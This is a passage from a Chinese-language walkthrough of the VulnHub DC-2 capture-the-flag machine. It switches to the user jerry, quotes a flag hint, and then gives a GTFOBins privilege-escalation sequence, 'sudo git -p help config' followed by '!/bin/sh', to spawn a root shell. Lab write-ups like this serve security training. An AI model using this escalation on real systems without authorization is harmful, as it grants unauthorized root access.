 ok,现在是正常的 shell 环境了,在提权之前,尝试登录 jerry 用户
```bash
su jerry
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC2/12.png)

```
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```
机翻
```
很高兴看到你已经做到了这一点-但你还没有回家。

你仍然需要获得最终标志（唯一真正重要的标志！！！）。

这里没有提示-你现在就一个人了。 :-)

继续-git outta here !!!!
```

这里提到了 git,那么就用它提权

---

# flag5

在 https://gtfobins.github.io/gtfobins/git/ 找到 git 提权的语法
```
sudo git -p help config
!/bin/sh
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC2/13.png)

